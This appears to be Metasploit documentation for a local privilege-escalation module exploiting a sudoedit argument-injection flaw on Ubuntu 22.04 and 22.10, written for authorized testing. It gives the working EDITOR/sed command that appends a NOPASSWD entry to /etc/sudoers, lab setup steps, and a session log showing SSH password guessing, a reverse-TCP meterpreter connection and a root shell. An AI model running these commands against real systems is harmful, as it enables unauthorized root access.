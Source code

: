 ## Vulnerable Application

This exploit takes advantage of a vulnerability in sudoedit, part of the sudo package.
The sudoedit (aka sudo -e) feature mishandles extra arguments passed in the user-provided
environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to
append arbitrary entries to the list of files to process. This can lead to privilege escalation.
by appending extra entries on /etc/sudoers allowing for execution of an arbitrary payload with root
privileges.

Affected versions are 1.8.0 through 1.9.12.p1. However THIS module only works against Ubuntu
22.04 and 22.10.

This module was tested against sudo 1.9.9-1ubuntu2 on Ubuntu 22.04, and
1.9.11p3-1ubuntu1 on Ubuntu 22.10.

### Exploit Breakdown

This exploit works by first identifying what file can be edited via `sudo -l`.  The `-S` flag
is also required or sudo may complain about not being in a proper tty environment, so `-S` specifies
to allow password input via stdin (although we never provide a password).

Next we make a new entry in `/etc/sudoers`.  In theory we could specify something similar to `"$USER ALL=(ALL:ALL) ALL"`
which many of the PoCs do, however we can be more surgical.  In this case, we don't specify the payload as most
Metasploit exploits would, but actually a shell (`/bin/sh` by default), as `sudo` doesn't play well with `&`.
We also add a flag at the end of our entry after a `#` (comment) for ease of erasing later.

Next we execute out payload, launching it through our shell.

Many of the PoCs work via user input where you have to manually edit `/etc/sudoers`. Obviously this strategy
won't work with Metasploit, as we need to automate it. Early attempts tried to script `vi` into performing
the write and quite command, similar to:
```EDITOR="vi -c ':$' -c ':s/$/\\r`whoami` ALL=(ALL:ALL) ALL/' -c ':wq'  -c ':q' -- /etc/sudoers" sudo -e /etc/motd```
However, the command didn't do well with newlines and escaping.

`sed` however is a valid editor, so it was relatively trivial to script out adding the new entry via sed:
```EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: ALL' -- /etc/sudoers" sudo -e /etc/motd```

#### Results from other OSes

Most of the errors are similar to:

```
[*] Executing command: EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: /bin/sh # 2Iq0tUAqsqtn' -- /etc/sudoers" sudo -S -e /etc/motd
[*] sudo: --: editing files in a writable directory is not permitted
[*] sed: -e expression #1, char 1: unknown command: `''
```

### Install

#### On Ubuntu 22.10:

```
https://mirrors.wikimedia.org/ubuntu/ubuntu/pool/main/s/sudo/sudo_1.9.11p3-1ubuntu1_amd64.deb
sudo dpkg -i sudo_1.9.11p3-1ubuntu1_amd64.deb
```

Follow the 22.04 instructions, after installing the deb package, to configure the host.

#### On Ubuntu 22.04:

```
wget http://security.ubuntu.com/ubuntu/pool/main/s/sudo/sudo_1.9.9-1ubuntu2_amd64.deb
sudo dpkg -i sudo_1.9.9-1ubuntu2_amd64.deb
```

Now add an entry to `/etc/sudoers` for an editable file, in this case we use `/etc/motd`.
Change 'user' for whatever user you want to be able to exploit this:

```
user ALL=(root) NOPASSWD: sudoedit /etc/motd
```

Now test this by running `sudo -l` and you should see:

```
User <user> may run the following commands on <system>:
    (ALL : ALL) ALL
    (root) NOPASSWD: sudoedit /etc/motd
```

Noting the entry at the bottom to `/etc/motd`

## Verification Steps

1. Install the application
2. Get an initial shell
3. Do: `use exploit/linux/local/sudoedit_bypass_priv_esc`
4. Do: `set session [session]`
5. Do: `run`
6. You should get a root shell.

## Options

### EDITABLEFILE

The file which can be edited via `sudoedit`. An attempt to auto detect this is made, so it is only required
if auto detection fails.

### SHELL

Which shell to use. Defaults to `/bin/sh`

### TIMEOUT

The amount of time to wait for a `sudo` command to respond. Defaults to `5`.


## Scenarios

### Sudo 1.9.9-1ubuntu2 on Ubuntu 22.04

```
[*] Processing sudoedit.rb for ERB directives.
resource (sudoedit.rb)> use auxiliary/scanner/ssh/ssh_login
resource (sudoedit.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (sudoedit.rb)> set username ubuntu
username => ubuntu
resource (sudoedit.rb)> set password ubuntu
password => ubuntu
resource (sudoedit.rb)> run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.15.0-48-generic #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46613 -> 1.1.1.1:22) at 2023-04-25 18:46:03 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (sudoedit.rb)> use exploit/linux/local/sudoedit_bypass_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (sudoedit.rb)> set session 1
session => 1
resource (sudoedit.rb)> set verbose true
verbose => true
resource (sudoedit.rb)> exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] sudo version 1.9.9.pre.1ubuntu2 is vulnerable
[+] The target is vulnerable. Sudo 1.9.9.pre.1ubuntu2 is vulnerable, can edit: /etc/motd
[*] Writing '/tmp/.LImVy' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Adding user to sudoers
[*] Executing command: EDITOR="sed -i -e '$ a `whoami` ALL=(ALL:ALL) NOPASSWD: /bin/sh # SbccIOwAiK1i' -- /etc/sudoers" sudo -S -e /etc/motd
[+] Likely successful exploitation, detected positive error message: editing files in a writable directory is not permitted
[*] sudo: --: editing files in a writable directory is not permitted
[*] Spawning payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[-] Manual cleanup is likely required, please run: sed -i '/# SbccIOwAiK1i/d' /etc/sudoers
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:57426) at 2023-04-25 18:46:25 -0400

(Meterpreter 2)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 2)(/home/ubuntu) > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/home/ubuntu) > 
```
